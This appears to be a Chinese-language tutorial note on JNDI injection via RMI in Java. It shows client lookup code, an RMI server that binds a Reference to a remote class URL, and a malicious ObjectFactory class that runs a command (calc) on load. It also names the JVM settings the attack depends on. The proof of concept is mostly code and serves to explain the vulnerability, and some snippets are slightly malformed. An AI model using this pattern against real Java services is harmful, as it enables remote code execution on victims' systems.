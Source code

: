 client:

```java
Context context = new  InitialContext();
context.lookup(serverURL:9527/exec);
```

server:

```java
Registry registry = LocateRegistry.createRegistry(9527);
Reference exec = new Reference("Exec", "Exec", "http://127.0.0.1:8080/");
ReferenceWrapper refWrap = new ReferenceWrapper(exec);
System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:9527/exec");
                                                                                                                                                             
```

Exec:

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;
public class Exec implements ObjectFactory   //这里如果实现了ObjectFactory接口,在调用过程中就会调用getObjectInstance方法
{    static 
{        
    System.err.println("Pwned");        
 try {            String[] cmd = {"calc"};           
      java.lang.Runtime.getRuntime().exec(cmd);        
     } 
 catch ( Exception e ) {           
     e.printStackTrace();       
 }    
}    
 public Object getObjectInstance(Object obj, Name name, Context nameCtx,                                    Hashtable<?, ?> environment) throws Exception {        
     return null;    
 }
}
```

> 我们在我们服务器的8080端口放上我们的Exec.class恶意类,然后构建一个Refer对象,client利用lookup加载这个Refer对象,即可将Exec.class加载到本地调用。

References主要记录了如下信息

```java
protected String className;protected Vector<RefAddr> addrs = null;protected String classFactory = null;protected String classFactoryLocation = null;
```

其中classFactoryLocation实际上是LDAP或者RMI的地址

## 相关配置

> 在RMI服务中引用远程对象将受本地Java环境限制即本地的java.rmi.server.useCodebaseOnly配置必须为false(允许加载远程对象)，如果该值为true则禁止引用远程对象。除此之外被引用的ObjectFactory对象还将受到com.sun.jndi.rmi.object.trustURLCodebase配置限制，如果该值为false(不信任远程引用对象)一样无法调用远程的引用对象。

